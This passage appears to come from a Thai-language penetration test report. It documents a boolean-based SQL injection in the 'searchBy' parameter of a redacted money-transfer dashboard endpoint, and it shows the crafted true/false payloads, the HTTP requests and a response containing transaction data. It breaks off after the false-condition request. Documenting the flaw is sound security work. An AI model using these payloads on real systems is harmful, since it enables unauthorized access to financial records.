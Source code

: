 เมื่อทดลองเรียกข้อมูลย้อนหลังตัว Browser จะส่ง Request ไปดังนี้

\begin{lstlisting}[numbers=none] 
POST [REDACTED]/dashboardV4.htm HTTP/1.1
[...]

cmd=getDashBoardTransaction&transactionType=OUW&searchBy=SENDING_NAME &searchValue=YYYY&currency=&country=&status=&startDate=2019-05-02&endDate=2019-05-13
\end{lstlisting}

ผู้ทดสอบใส่คำสั่ง SQL ดังต่อไปนี้ลงไปในค่าของตัวแปร searchBy

\begin{lstlisting}[language=sql,numbers=none] 
SENDING_NAME='YYYY' and '1'='1' and SENDING_NAME
\end{lstlisting}

จะได้ Request ดังต่อไปนี้

\begin{lstlisting}[numbers=none] 
POST [REDACTED]/dashboardV4.htm HTTP/1.1
[...]

cmd=getDashBoardTransaction&transactionType=OUW&<@\textcolor{red}{searchBy=SENDING\_NAME='YYYY' and '1'='1' and SENDING\_NAME}@>&searchValue=YYYY&currency=&country=&status=&startDate=2019-05-02&endDate=2019-05-13
\end{lstlisting}

เนื่องจากคำสิ่งที่เรา Inject เข้าไปนั้น จะมีค่าเป็น True เสมอ ซึ่งได้ Response ดังนี้ ซึ่งเป็น Response ที่มีข้อมูล

\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Mon, 13 May 2019 03:01:42 GMT
Content-Length: 3984
[...]

{"iTotalRecords":12,"iTotalDisplayRecords":12,"data":[[1,"1905101637LUZFN81","IRM","YYYY","George Adam1","567899000000","George Adam1","SGD","99.02","THB","37.58","31.3200000","FA","318013"]]
[...]
\end{lstlisting}

จากนั้นทดสอบใส่คำสั่ง SQL ดังต่อไปนี้ลงไปในค่าของตัวแปร searchBy แต่ครั้งนี้คำสั่งที่ใส่ไปจะมีค่าเป็น False

\begin{lstlisting}[language=sql,numbers=none] 
SENDING_NAME='YYYY' and '1'='0' and SENDING_NAME
\end{lstlisting}

จะได้ Request ดังต่อไปนี้

\begin{lstlisting}[numbers=none] 
POST [REDACTED]/dashboardV4.htm HTTP/1.1
[...]

cmd=getDashBoardTransaction&transactionType=OUW&<@\textcolor{red}{searchBy=SENDING\_NAME='YYYY' and '1'='0' and SENDING\_NAME}@>&searchValue=YYYY&currency=&country=&status=&startDate=2019-05-02&endDate=2019-05-13
\end{lstlisting}

